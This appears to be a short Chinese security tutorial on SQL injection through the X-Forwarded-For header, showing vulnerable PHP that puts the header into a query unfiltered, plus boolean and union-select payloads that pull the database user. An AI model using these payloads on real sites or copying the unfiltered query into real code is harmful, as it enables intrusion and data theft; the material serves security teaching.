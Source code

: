 ## 0x00 XFF注入原理
X-Forwarded-For 简称 XFF 头，它代表了客户端的真实 IP，通过修改他的值就可以伪造客户端 IP。XFF 并不受 gpc 影响，而且开发人员很容易忽略这个 XFF 头，不会对 XFF 头进行过滤。  
```php
<?php
echo "xff---".$_SERVER['HTTP_X_FORWARDED_FOR'];
?>
```
使用burp suite可以给 X-Forword-For 字段设置任意字符串，如果程序中获取这个值再带入数据库查询，就会造成sql注入。  
除了 X-Forwarded-For 还有 HTTP_CLIENT_IP 都可以由客户端控制值，所以服务端接受这两个参数的时候没有过滤会造成 SQL 注入或者更高的危害。  
## 0x01 代码分析
getenv('HTTP_X_FORWARDED_FOR')获取远程客户端 的HTTP_X_FORWARDED_FOR 的值 没有进行过滤，直接拼接SQL语句带入查询造成注入。
```php
$ip=getenv('HTTP_X_FORWARDED_FOR');
$sql="select * from login_ip where ip = 'ip'";
```

## 0x02 黑盒模式下的XFF注入攻击
X-Forwarded-for: 127.0.0.1'and 1=1#  
X-Forwarded-for: 127.0.0.1'and 1=2#  
两次提交返回不一样 存在 SQL 注入漏洞  
获取敏感信息  
X-Forwarded-for: 127.0.0.11'union select 1,2,3,user()#  
输入提交包 后看到页面返回 root@loclhost  

感触：无论什么类型的注入，都是在后端直接把参数拼接进sql语句中带入数据库查询，从而造成SQL注入漏洞。